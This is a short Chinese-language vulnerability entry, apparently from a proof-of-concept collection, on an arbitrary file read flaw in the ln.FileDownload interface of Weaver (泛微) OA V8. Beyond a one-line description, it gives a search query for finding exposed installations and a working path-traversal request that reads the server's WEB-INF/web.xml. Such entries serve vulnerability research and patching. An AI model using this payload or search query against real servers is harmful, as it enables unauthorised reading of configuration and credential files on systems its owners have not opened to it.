 # 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登陆页面

![image-20220520141045902](./images/202205201410983.png)

验证POC

```
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![image-20220520141058500](./images/202205201410567.png)